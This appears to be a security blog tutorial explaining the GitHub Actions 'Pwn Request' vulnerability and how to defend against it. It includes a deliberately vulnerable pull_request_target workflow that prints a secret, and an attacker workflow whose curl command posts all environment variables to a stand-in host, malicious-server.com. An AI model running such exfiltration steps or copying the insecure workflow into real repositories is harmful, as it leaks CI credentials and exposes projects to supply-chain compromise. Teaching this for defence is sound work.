


As systems continue to get more complex, the nature of attacks that hackers perform is also changing and becoming more advanced.

If you are a developer, you might have come across GitHub actions that handle various crucial workflows in a repository. If a hacker gains access to these actions, they can (1) steal sensitive information and (2) alter the base repository, potentially compromising the supply chain or the repository's users.

The diagram below shows how an attack can start from code execution on a GitHub-hosted runner and ending with a particular impact.



In this article, we'll cover the "[Pwn Request](https://www.stepsecurity.io/blog/security-breach-in-stripe-repo-a-deep-dive-into-the-pwn-request-vulnerability)" vulnerability, how it occurs, and ways to secure GitHub workflows against it.

## What is a Pwn Request?

A "Pwn Request" is a vulnerability in GitHub Actions that allows an attacker to gain access to a repository and extract secrets from it. One of the main reasons why it happens is because of the `pull_request_target` trigger in GitHub workflows. When a workflow is triggered by `pull_request_target`, it runs with elevated permissions, including write access to the repository and access to its secrets. If a hacker can exploit this trigger, they can execute malicious code within a privileged environment, leading to unauthorized access or modifications to the repository.

Here’s a diagram explaining how it works:



## Understanding how a Pwn request happens.

Now that we know what a Pwn request is, we will create a demo workflow to show how a workflow with elevated permissions can lead to compromising secrets.

### Step 1: Setting up the target repository

We will create a vulnerable workflow in the target repository. This workflow uses the `pull_request_target` trigger, which executes workflows in the context of the base repository.

```yaml
name: Vulnerable Workflow

on:
  pull_request_target:

jobs:
  build:
    runs-on: ubuntu-latest

    steps:
      - name: Checkout code
        uses: actions/checkout@v3
      
      - name: Print secrets
        env:
          SECRET_API_KEY: ${{ secrets.SECRET_API_KEY }}
        run: |
          echo "Using secret API key..."
          echo $SECRET_API_KEY
```

This code runs the workflow when a pull request is opened, and exposes the secret `SECRET_API_KEY` in a way that can be exploited.

### Step 2: Attackers introduces a malicious yml file that takes the secrets

The attacker forks the target repository and adds a malicious workflow file, which exploits the `pull_request_target` . It captures all environment variables, including sensitive secrets and sends them to the attacker's server via a `POST` request.

```yaml
name: Exploit Workflow

on:
  pull_request_target:

jobs:
  exploit:
    runs-on: ubuntu-latest

    steps:
      - name: Exploit - Exfiltrate Secrets
        run: |
          echo "Exfiltrating secrets..."
          env > /tmp/env_vars.txt
          curl -X POST -F "file=@/tmp/env_vars.txt" <http://malicious-server.com/upload>

```

## Step 3: Carrying out the attack

The attacker creates a pull request from their fork to the target repository. When the PR is opened, the `pull_request_target` workflow runs in the context of the target repository. If the workflow runs without safeguards, secrets and environment variables will be sent to the attacker's server.

This is how the output will look like:


## Preventing your workflows from Pwn request

To learn how to prevent your workflows from Pwn request, we need to learn why the attack was possible in the first place.

Here are the main reasons:

1. The workflow was triggered by `pull_request_target` and included `uses: actions/checkout@v3`. This combination allowed jobs and steps to run with that trigger and printing secrets.
    
2. The `GITHUB_TOKEN` secret is always passed to a workflow run. By default, the `GITHUB_TOKEN` has read-only permissions for repositories created after 2023-02-02. To do the attack, we had to set the workflow permissions to `Read and Write` for the.
    
    
    

**To prevent this from happening, follow these GitHub workflow best practices:**

* When writing workflows, exercise caution with code checkout. Avoid checking out code from pull requests that run build or similar commands. Additionally, be mindful of access to repository secrets. For workflows triggered by `pull_request_target`, it's crucial not to pass credentials when invoking custom scripts on checked-out pull request code.
    
* Opt for the `pull_request` trigger instead of `pull_request_target` if your workflow doesn't need "write" permissions or access to secrets.
    
    Here's a comparison of the two triggers:
    
    | Aspect | `pull_request` | `pull_request_target` |
    | --- | --- | --- |
    | Context | PR source branch | Base repository |
    | Permissions | Limited | Full repository permissions |
    | Secrets Access | No | Yes |
    | Typical Use | Standard checks | Trusted actions, deployments |
    | Security | More secure | Requires careful configuration |
    | Fork PR Behavior | Restricted | Can access secrets/write |
    
* For `pull_request_target` workflows, add a condition ensuring they only run when a specific label is assigned to the pull request. This indicates that someone with write privileges to the target repository has verified the PR.
    
* Add tools like `Git Guardian` that can notify you whenever a secret is at risk of being compromised.
    
    
    
* Use tools like [StepSecurity](https://www.stepsecurity.io/) that has solutions such as `hard runner` to prevent:
    
    * Exfiltration of CI/CD credentials and source code.
        
    * Tampering of source code, dependencies, or artifacts during the build to inject a backdoor.
        

## Summary

Workflows are a critical part of development pipelines, but without proper safeguards, they can become an avenue for attacks like the Pwn Request vulnerability, as we have seen in this article. Implementing strict workflow configurations, following best practices, and using effective tools can help you secure your GitHub workflows.

Here are some resources that I suggest you read to learn more about the vulnerability:

* [Pwn requst via non-default branch](https://github.com/nikitastupin/pwnhub/blob/main/writings/pwn-request-via-non-default-branch.md)
    
* [Security Breach in Stripe Repo: A Deep Dive into the "Pwn Request" Vulnerability](https://www.stepsecurity.io/blog/security-breach-in-stripe-repo-a-deep-dive-into-the-pwn-request-vulnerability)
    
* [PWN Request Threat: A Hidden Danger in GitHub Actions](https://www.endorlabs.com/learn/pwn-request-threat-a-hidden-danger-in-github-actions)